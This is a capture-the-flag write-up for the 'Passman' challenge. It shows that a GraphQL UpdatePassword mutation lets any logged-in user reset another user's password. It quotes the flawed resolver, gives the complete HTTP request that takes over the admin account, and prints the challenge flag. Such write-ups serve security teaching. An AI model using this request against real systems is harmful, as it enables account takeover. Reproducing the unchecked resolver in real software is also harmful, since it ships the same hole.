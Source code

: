 ## Passman :: Easy

#### Scenario

```
Pandora discovered the presence of a mole within the ministry.
To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager.
Can you hack into the password manager?
```

#### Solve

When we begin this challenge, we arrive on this landing page:

![](/images/passman_login.png)

It seems like we can `Login` and `Register` a new account.
Let's inspect the logic behind these functionalities in the source.
It seems like these are handled by `GraphQL` mutations.

These mutations are in the `helper/GraphQLHelper.js` file.

It seems like there are three mutations pertaining to the authentication of users:

- `RegisterUser`: Handles the creation of a new user.
- `LoginUser`: Handles the authentication of a user.
- `UpdatePassword`: Handles the password update functionality for a user.

It seems like there is some logic flaw in the `UpdatePassword` mutation.
Let's take a look:
```javascript
        UpdatePassword: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));

                    db.updatePassword(args.username, args.password)
                        .then(() => resolve(response("Password updated successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },
```

This feature does not validate that the initiator is the target of the password change.

We can see that it check if `request.user` exists.
But then it uses `args.username` to specify which user to reset.

Letting us change the password for any user.

Here is the request used to changed the `admin` password:

```http
POST /graphql HTTP/1.1
Host: 178.128.174.19:30312
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://178.128.174.19:30312/
Content-Type: application/json
Origin: http://178.128.174.19:30312
Content-Length: 192
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNrdWxsa2lkIiwiaXNfYWRtaW4iOjAsImlhdCI6MTY3OTE0NzI3Mn0.TrQXKqwG2KN2GMkwZwftQz3iw8ftKbusYtPYYtLeLfk;
Connection: close


{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"taken-over"}}
```

Using this request, will reset the `admin` user's password for `taken-over`.

Once this request is done, we can authenticate as `admin` and obtain the flag.

![](/images/passman_flag.png)

```
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```

